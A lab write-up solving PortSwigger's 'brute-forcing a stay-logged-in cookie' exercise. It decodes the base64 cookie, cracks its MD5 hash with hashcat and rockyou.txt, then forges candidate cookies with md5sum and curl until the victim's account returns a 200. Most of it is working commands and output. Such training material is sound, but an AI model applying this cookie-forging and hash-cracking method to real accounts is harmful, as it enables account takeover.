




# Lab: Brute-forcing a stay-logged-in cookie

Level: #Practitioner

## Description
Taken from the [portswigger lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie):

*This Lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.*

*To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.*

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

> Note: We dont use the suggested passwords. Instead, depending on what we found during enumeration, we decide what passwords lists would be useful.


#### Knowledge
- base64 Encoding
- Hash systems

#### Tools
- Firefox Add on [Cookie editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) 
- [Burpsuit](https://portswigger.net/burp)
- [SecLits](https://github.com/danielmiessler/SecLists)
- md5sum
- hashcat
- hashid


## Enumeration

When Access de lab it would run a website in a random subdomain with the following structure:

`https://[random-32-hex-value].web-security-academy.net/`
The first  page's section looks like:


Go to the `My account` send me to `/login` view:


Due to the description, the first thing I can do its try login with the knowing credentials `wiener:peter` turning on the *staty logged in* option.

>In this point we can use `BurpSuit` to intercept and analize the request.

For now I open the inspector (F12 in firefox browser) and click the `log in` button. This send a post request, authentic the `wiener` user, then it redirects me to `/my-account` view:


Because of  I already know that we will be interested in the `stay logged` option from de description. I check the current cookies using the add-on   [Cookie editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) . There I found two cookies, `session` and `stay-logged-in`



The `stay-logged-in` cookie looks like encoding in [base64](https://es.wikipedia.org/wiki/Base64), so we can use a onlie tool like [cyberchef](https://cyberchef.org/) or from terminal using `base64` command with `-d` switch to decode it. I identify a pair value `wiener:[hex value]` that maybe could be the password after apply a hash system.

```shell
$ echo -n "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

To check if the hex value match with some hash system we can use the terminal command  `hashid` . Its widely used the  [MD5 hash function](https://en.wikipedia.org/wiki/MD5). So I am gonna try that.
```shell
$ hashid 51dc30ddc473d43a6011e9ebba6ca770
Analyzing '51dc30ddc473d43a6011e9ebba6ca770'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```

Its possible bruteforce a hash using the password list, In this case I used the famous [rockyou.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz)  instead the suggested by the description lab. I used the `hashcat` terminal command:

Before bruteforce the hash, first save it to a file:
```shell
# Save the hash in a file without line break
echo -n "51dc30ddc473d43a6011e9ebba6ca770" > wiener_hash 
```

Now to use `hashcat` we need to define the `attack mode` with the `-a` switch, and the `Hash type` with the `-m` switch. Reading the  `hashcat` manual we can understad it:

```shell
$ man hashcat
...SNIP...

Attack mode
       0 = Straight
       1 = Combination
       3 = Brute-force
       6 = Hybrid Wordlist + Mask
       7 = Hybrid Mask + Wordlist

...SNIP...

Hash types
       0 = MD5
       10 = md5($pass.$salt)
       20 = md5($salt.$pass)
...SNIP...
```

I am gonna use `bruteforce` its mean `-a 3` and the `MD5` hash function, so `-m 0` 

```shell
hashcat -a 3 -m 0 wiener_hash rockyou.txt --force 
...SNIP...

51dc30ddc473d43a6011e9ebba6ca770:peter                                                                                                                                                                                                          Session..........: hashcat                                                                                              Status...........: Cracked                                                                                              Hash.Type........: MD5                                                                                                  Hash.Target......: 51dc30ddc473d43a6011e9ebba6ca770                                                                     Time.Started.....: Sat Sep 10 12:13:38 2022 (0 secs)                                                                    Time.Estimated...: Sat Sep 10 12:13:38 2022 (0 secs)                                                                    Guess.Mask.......: peter [5]                                                                                            Guess.Queue......: 1386/14336793 (0.01%)                                                                                Speed.#1.........:     1428 H/s (0.00ms) @ Accel:1024 Loops:1 Thr:1 Vec:8                                               Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts                                                           Progress.........: 1/1 (100.00%)                                                                                        Rejected.........: 0/1 (0.00%)                                                                                          Restore.Point....: 0/1 (0.00%)                                                                                          Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1                                                                   Candidates.#1....: peter -> peter                                                                                                                                                                                                               Started: Sat Sep 10 12:11:56 2022                                                                                       Stopped: Sat Sep 10 12:13:40 2022   
```

> I need to use `--force` swicht due to i was using the `Windows Subsistem for Linux WSL2`  (I know that maybe you hate me now :D ) 

It only tooks about 2 min crack the hash, identify that `peter` is the password.

In summary we need to bruteforce the credentials in the cookie section instesad of the initial authentication method.  But to achieve it we need apply md5 hash to all guesses we use. So I use the  `md5sum`  command:

## Foothold

To check that works correctly I apply the `MD5` hash to the `peter` password. The `md5sum` recive a file like argument, but instead of save `peter` in a file, I use the notation `<()` to send it.

```shell
$ md5sum <(echo -n peter) 
51dc30ddc473d43a6011e9ebba6ca770  /dev/fd/63
```

>I only need the hash  (after the hash is the file descriptor, it I would use a exist file , here apperars the file name)

Now use `cut` to split the output with a space and get only the hash.
```shell
$ md5sum <(echo -n peter) | cut -d " " -f1 
51dc30ddc473d43a6011e9ebba6ca770
```

Also note that the hash is exactly the hash that I cracked before.

If i apply the `base64` to the hash I have to obtain the same cookie that the browser get when I log in with `wiener:peter` credentials:

```shell
$ echo -n "wiener:51dc30ddc473d43a6011e9ebba6ca770" | base64                                                                                         d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
```

Now I am gonna test the GET request to `/my-account` with a correct and an incorrec cookie, to check what I get in the response. 

```shell

# with the correct cookie to wiener:peter credentials:

$ curl -s -w "%{http_code}\n%{time_total}" "https://0ad600c1041091cec0af562300ca008b.web-security-academy.net/my-account" -H "Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw"                                                                                                       <!DOCTYPE html>                                                                                                                                             <html>                                                                                                                                                          <head>
...SNIP...
            </section>                                                                                                                                              </div>                                                                                                                                                  </body>                                                                                                                                                 </html>                                                                                                                                                     200                                                                                                                                                         0.778732⏎ 

# Now with a invalid cookie
$ curl -s -w "%{http_code}\n%{time_total}" "https://0ad600c1041091cec0af562300ca008b.web-security-academy.net/my-account" -H "Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllY"                                                                                                                  302                                                                                                                                                         0.792953⏎  
```

In this way I need automatizate the process to check every password in a list, in this case I used the [SecLists 10k most common password](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt) And the correct password will be the one to get a `200` http status code.


I wrote the script  `passwordBruteforceCookie.sh` . which has the username like argument. If I test it with `wiener` i get `peter`:

```shell
./passwordBruteforceCookie.sh carlos > output.txt   
```

I redirect the script STDOUT to the `output.txt` file. In this way I can save the total data and analize it. In this case in another shell I use `tail`  to see the last lineas and use `-f`  switch  to interactive see each update.

```shell
tail output.txt -f 
- [ ] 302 | time:3.931265 | bytes:13 | lines:2 | guess:voodoo                                                                                                     302 | time:3.937863 | bytes:13 | lines:2 | guess:voyager                                                                                                    302 | time:3.903246 | bytes:13 | lines:2 | guess:apple                                                                                                      302 | time:3.913936 | bytes:13 | lines:2 | guess:rush2112                                                                                                   302 | time:3.907594 | bytes:13 | lines:2 | guess:beer                                                                                                       200 | time:3.935277 | bytes:3069 | lines:62 | guess:peter                                                                                                   Find it! password: peter
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw 
```

Once verified that the script works. Only execute it again with the `carlos` username:

```shell
./passwordBruteforceCookie.sh carlos >output.txt   
```

```shell
tail output.txt -f 
302 | time:16.579290 | bytes:14 | lines:2 | guess:secret                                                                                                    302 | time:16.608152 | bytes:14 | lines:2 | guess:cowboy                                                                                                    302 | time:16.646440 | bytes:14 | lines:2 | guess:diamond                                                                                                   302 | time:16.637529 | bytes:14 | lines:2 | guess:yellow                                                                                                    200 | time:16.622343 | bytes:5047 | lines:86 | guess:asdfgh                                                                                                 302 | time:16.652966 | bytes:14 | lines:2 | guess:richard                                                                                                   Find it! password: asdfgh                                                                                                                                   Cookie: stay-logged-in=Y2FybG9zOmExNTJlODQxNzgzOTE0MTQ2ZTRiY2Q0ZjM5MTAwNjg2 
```


### Notes
-  Since script execute mulitples process in paralell, maybe we dont see the string `Find it! password...` in the last line. But the script will stop so only we need to check where 
- I checked bruteforce the credentiasl in the POST login but I get `You have made too many incorrect login attempts. Please try again in 1 minute(s).`


